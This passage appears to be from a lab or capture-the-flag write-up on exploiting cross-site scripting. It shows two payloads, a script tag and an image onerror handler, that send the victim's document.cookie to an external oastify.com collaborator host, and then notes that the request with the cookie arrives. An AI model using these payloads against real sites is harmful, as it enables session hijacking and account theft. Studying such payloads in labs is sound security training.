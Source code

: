 
Next we test a payload from https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md: 

```
<script>var i=new Image;i.src="http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie="+document.cookie;</script>
```

Or

```
<img src=x onerror="this.src='http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie='+document.cookie; this.removeAttribute('onerror');">
```




![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/3.png)

We get an HTTP request with the cookie:


